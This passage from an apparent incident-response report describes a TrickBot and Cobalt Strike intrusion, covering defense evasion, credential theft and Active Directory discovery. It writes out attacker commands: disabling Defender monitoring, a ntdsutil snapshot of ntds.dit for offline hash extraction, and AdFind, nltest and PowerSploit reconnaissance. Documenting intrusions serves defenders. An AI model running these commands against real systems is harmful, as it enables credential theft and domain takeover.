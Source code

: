 Set-MpPreference -DisableRealtimeMonitoring $true

# Credential Access

Trickbot made use of esentutl to gather MSEdge history, webcache, and saved passwords using TrickBot’s “pwgrab” module.

LSASS was dumped remotely using ProcDump. The execution took place from the beachhead using WMIC.

“Ntdsutil” was used to take a snapshot of ntds.dit and save it under “C:\Perflogs\1”. This technique is useful for offline password hash extraction. This activity occurred twice. The same batch file, ‘12.bat’, was first executed in the context of SYSTEM; and secondly, in the context of a domain admin user. The contents of ‘12.bat’:

ntdsutil "ac in ntds" "ifm" "cr fu C:\Perflogs\1" q q

# Discovery

Net and Nltest commands were used to gather network and domain reconnaissance. During the intrusion, this activity was seen multiple times, on multiple hosts.

Other discovery commands included:
- systeminfo
- nltest /dclist:<hidden>.local
- nltest /domain_trusts /all_trusts
- net localgroup Administrators
- whoami.exe" /groups

AdFind.exe and adf.bat were uploaded to the beachhead. adf.bat was used to execute:
- adfind.exe -f "(objectcategory=person)"
- adfind.exe -f "(objectcategory=organizationalUnit)"
- adfind.exe -f "objectcategory=computer"
- adfind.exe -gcb -sc trustdmp
- adfind.exe -f "(objectcategory=group)"
- adfind.exe -subnets -f (objectCategory=subnet)
- adfind.exe -sc trustdmp

AdFind results were written to the following locations:
- C:\Windows\Temp\adf\ad_group.txt
- C:\Windows\Temp\adf\trustdmp.txt
- C:\Windows\Temp\adf\subnets.txt
- C:\Windows\Temp\adf\ad_ous.txt
- C:\Windows\Temp\adf\ad_computers.txt
- C:\Windows\Temp\adf\ad_users.txt

On the beachhead, Cobalt Strike executed BloodHound in memory. The results were saved in:

"C:\Windows\Temp\Dogi"

BloodHound was later executed on the domain controller as well. Once again the results were stored in:

"C:\Windows\Temp\Dogi"

PowerSploit was loaded into memory on the DC and the following functions were used:
- Get-NetSubnet
- Get-NetComputer –ping
